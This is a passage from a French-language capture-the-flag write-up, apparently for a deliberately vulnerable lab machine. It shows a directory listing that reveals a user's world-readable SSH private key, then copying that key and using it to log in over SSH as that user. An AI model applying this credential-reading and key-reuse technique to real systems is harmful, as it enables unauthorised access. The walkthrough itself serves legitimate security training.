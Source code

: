 On s’aperçoit assez vite que *wget* n'est pas installé et que *curl* a été retiré (*locate* indique son emplacement mais le binaire ne semble plus y être).  

Via un *ls -alR /home* on découvre deux utilisateur : *jetta* et *mauk*.
Le second a été quelque peu permissif sur les droits d'accès de ses fichiers puisqu'il est possible de lire ses clés SSH !

```plain
/home:
total 16
drwxr-xr-x.  4 root  root  4096 Feb 25  2013 .
dr-xr-xr-x. 18 root  root  4096 Feb 28  2013 ..
drwx------.  3 jetta jetta 4096 Jul  9  2013 jetta
drwxr-xr-x.  3 mauk  mauk  4096 Jul  9  2013 mauk

/home/mauk:
total 28
drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 .
drwxr-xr-x. 4 root root 4096 Feb 25  2013 ..
-rw-------. 1 mauk mauk   70 Jul  9  2013 .bash_history
-rw-r--r--. 1 mauk mauk   18 Apr 23  2012 .bash_logout
-rw-r--r--. 1 mauk mauk  193 Apr 23  2012 .bash_profile
-rw-r--r--. 1 mauk mauk  124 Apr 23  2012 .bashrc
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .ssh

/home/mauk/.ssh:
total 20
drwxr-xr-x. 2 mauk mauk 4096 Jul  9  2013 .
drwxr-xr-x. 3 mauk mauk 4096 Jul  9  2013 ..
-rw-r--r--. 1 mauk mauk  397 Feb 24  2013 authorized_keys
-rw-r--r--. 1 mauk mauk 1679 Feb 24  2013 id_rsa
-rw-r--r--. 1 mauk mauk  397 Feb 24  2013 id_rsa.pub
```

On affiche le contenu de *id\_rsa* que l'on écrit dans un fichier *mauk\_key* en local puis on se connecte via SSH sur notre cible :

```plain
ssh -i mauk_key mauk@192.168.1.57
```

(on aura préalablement mis les bonnes permissions sur le fichier *mauk\_key* pour que SSH ne râle pas)  

![Connexion avec le compte mauk](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity6.png)

Ca y est on est dans la boîte !
